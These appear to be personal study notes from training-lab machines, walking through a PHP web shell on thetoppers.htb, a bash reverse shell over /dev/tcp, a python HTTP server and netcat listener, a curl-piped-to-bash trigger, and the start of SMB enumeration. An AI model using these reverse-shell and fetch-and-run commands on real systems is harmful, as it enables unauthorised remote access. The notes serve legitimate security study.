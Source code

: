 From the .PHP script we build and uploaded yesterday we can execute commands via CMD on the server using:
```
http://thetoppers.htb/shell.php?cmd=[command]
```

Then we make a bash shell for us to get a reverse shell on the server(Why could we not just use the .php shell?). We the new shell creates a connection to our ip on port 1337.

```
#!/bin/bash

bash -i >& /dev/tcp/<IP>/1337 0>&1

```

-i: Launches interactive Bash shell.



And upload this new .sh shell to the server, we will be executing this via the .php shell. 

Setting up a http server running from my PC, in the directory i have saved the new .sh shell: 

```
python3 -m http.server 8000
```

This hosts a http service, listening for incoming connections on port 8000. When clients connect to the service when would gain access to all the file contained in the directory where the service is hosted. 

Then we set up a listener with netcat on the port we specified in the .sh script. (the -l specifies the listening mode)
```
nc -nvlp 1337
```


When executing this in the browser:
```
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.233:8000/shell.sh|bash
```

we create execute the .sh shell and create a connection to our 1337 port, letting us execute code on their server from our terminal:

![[Pasted image 20240116201856.png]]
![[Pasted image 20240116201913.png]]


### 17.01.2024
Hacking Archetype: 
Finding SMB service on port 445. An SMB service allows systems of the same network to share files and printers over TCP/IP. 

Can see that the box uses port 139 to host a netbios service, using this to host SMB.

We can use smbclient to list shares the SMB service.:
```
smbclient -L server_name_or_ip_address
```
